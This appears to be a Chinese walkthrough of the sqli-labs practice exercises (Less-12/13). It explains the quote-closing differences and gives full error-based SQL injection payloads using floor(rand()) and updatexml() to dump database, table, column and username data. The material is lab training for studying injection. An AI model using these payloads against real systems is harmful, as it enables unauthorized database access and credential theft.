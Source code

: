 `1"`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") and password=("") LIMIT 0,1' at line 1

用**")**闭合
1")
与Less11的区别就是闭合方式的不一样，注入方式完全一样。 

## 报错注入

之前用过了 extractvalue() 函数， updatexml()函数 ，现在试试 floor()函数&#x20;
`-1") union select count(*),concat(0x7e,database(),0x7e,**floor(rand(0)*2)**)x from information_schema.tables **group by x**-- +`

```bash
爆破数据库
-1") union select count(*),concat(0x7e,database(),0x7e,floor(rand(0)*2))x from information_schema.tables group by x-- +
爆破数据表
-1") union select count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x-- +
爆破字段表
-1") union select count(*),concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x-- +
爆破字段
-1") union select count(*),concat(0x7e,(select username from users limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x-- +
```

# Pass13

```bash
@$sql="SELECT username, password FROM users WHERE username=('$uname') and password=('$passwd') LIMIT 0,1";
```

与Less12的唯一区别为闭合方式为**')** &#x20;
`1')` 

报错注入

用**updatexml()函数**进行报错注入 &#x20;
updatexml（1，2，3）

```bash
查询字段数
1') order by 3-- + 
登录后页面报错Unknown column '3' in 'order clause'
1') order by 2-- +
没有提示错误，说明有2个字段；

判断回显点
1') union select 1,2 -- +
没有显示1，2

查询数据库表
-1') or updatexml(1,concat(0x7e,(select database()),0x7e),1) -- +
爆破数据表
-1') or updatexml(1,concat(0x7e,(select (table_name)from information_schema.tables where table_schema=database() limit 2,1),0x7e),1) -- +
爆破字段名
-1') or updatexml(1,concat(0x7e,(select (column_name)from information_schema.columns where table_name='users' limit 8,1),0x7e),1) -- +
爆破字段
-1') or updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1) -- +

```
